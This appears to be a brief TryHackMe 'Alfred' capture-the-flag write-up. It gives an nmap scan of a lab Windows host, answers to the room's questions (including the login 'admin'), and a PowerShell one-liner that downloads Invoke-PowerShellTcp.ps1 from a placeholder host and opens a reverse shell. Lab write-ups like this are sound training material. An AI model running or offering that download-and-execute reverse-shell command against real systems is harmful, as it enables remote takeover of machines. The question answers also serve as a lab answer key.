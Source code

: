 # Alred THM

>Nathaniel Mickel | 10 Sept, 2021

```bash
export IP=10.10.64.42
```
 Nmap 7.91 scan initiated Fri Sep 10 08:16:43 2021 as: nmap -sV -sC -oN nmap/initial 10.10.64.42
Nmap scan report for 10.10.64.42
Host is up (0.52s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2021-09-10T13:22:28+00:00
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2021-09-09T13:14:47
|_Not valid after:  2022-03-11T13:14:47
|_ssl-date: 2021-09-10T13:22:47+00:00; 0s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


>How many ports are open? (TCP only)

```
3
```

>Login panel username and password

```
admin
```

>invoke powershell script

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```